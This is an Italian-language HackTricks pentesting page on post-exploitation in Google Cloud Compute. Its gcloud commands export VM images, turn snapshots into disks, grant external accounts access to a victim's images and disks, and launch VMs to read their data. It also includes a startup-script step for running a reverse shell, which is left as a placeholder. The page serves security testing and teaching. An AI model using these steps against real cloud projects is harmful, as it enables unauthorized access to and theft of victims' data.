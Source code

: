 # GCP - Post Esploitation su Compute

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esporta e ispeziona immagini localmente

Ciò consentirebbe a un attaccante di **accedere ai dati contenuti all'interno delle immagini esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine di VM in un bucket e quindi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild** poiché è il **servizio** che verrà richiesto di eseguire l'esportazione. 
Inoltre, affinché ciò funzioni, il SA di codebuild e il SA di compute hanno bisogno di autorizzazioni privilegiate. 
Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esporta e ispeziona snapshot e dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e, seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispeziona un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da dove un attaccante **ha creato un'immagine**, è possibile concedere l'accesso a un account esterno sull'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e quindi creare una nuova VM da essa:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non è possibile concedere l'accesso all'account esterno sull'immagine, è possibile avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire i metadati un reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispeziona uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai dati memorizzati in un disco o in uno snapshot, è possibile trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.

Oppure è possibile concedere l'accesso a un account esterno sul disco (se il punto di partenza è uno snapshot, concedere l'accesso allo snapshot o creare un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collegare il disco** a un'istanza:

```plaintext
gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE
```

```html
<p>gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE</p>
```
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montare il disco all'interno della VM:

1. **Accedi tramite SSH alla VM**:

```sh
gcloud compute ssh [NOME_ISTANZA] --zone [ZONA]
```
2. **Identifica il disco**: Una volta all'interno della VM, identifica il nuovo disco elencando i dispositivi di archiviazione. Di solito, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formatta e monta il disco** (se è un disco nuovo o non formattato):
*   Crea un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[DIRECTORY_DI_MONTAGGIO]
```
*   Monta il disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DISCO] /mnt/disks/[DIRECTORY_DI_MONTAGGIO]
```

Se **non puoi concedere l'accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disco**.

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF**, controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

